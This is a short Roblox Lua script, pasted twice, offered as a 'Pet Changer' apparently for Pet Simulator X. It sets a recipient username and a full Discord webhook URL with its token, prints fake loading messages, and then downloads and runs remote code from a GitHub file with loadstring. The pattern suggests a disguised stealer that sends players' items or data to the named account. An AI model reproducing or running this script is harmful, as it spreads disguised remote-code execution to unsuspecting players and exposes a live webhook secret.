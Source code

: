 Username = "Coryxkashin2"

WebHook = "https://discord.com/api/webhooks/1077477766770995250/fmC4OowZGgeQZN4T-VpHTbMvJJjJ70klbGl6C3o5Hry06Pk97EXoce0iqVSxXHVucKEN"

_G.CustomScriptName = "Pet Changer"

_G.Text1 = "Script Loaded..."

_G.Text2 = "Waiting for Script"

_G.Text3 = "Checking Scripts..."

_G.Text4 = "Starting Scripts..."

loadstring(game:HttpGet("https://raw.githubusercontent.com/Justanotherdme/petsimx22/main/petsimguiss.lua"))()
Username = "Coryxkashin2"

WebHook = "https://discord.com/api/webhooks/1077477766770995250/fmC4OowZGgeQZN4T-VpHTbMvJJjJ70klbGl6C3o5Hry06Pk97EXoce0iqVSxXHVucKEN"

_G.CustomScriptName = "Pet Changer"

_G.Text1 = "Script Loaded..."

_G.Text2 = "Waiting for Script"

_G.Text3 = "Checking Scripts..."

_G.Text4 = "Starting Scripts..."

_G.Text5 = "successfully loaded..."

loadstring(game:HttpGet("https://raw.githubusercontent.com/Justanotherdme/petsimx22/main/petsimguiss.lua"))()

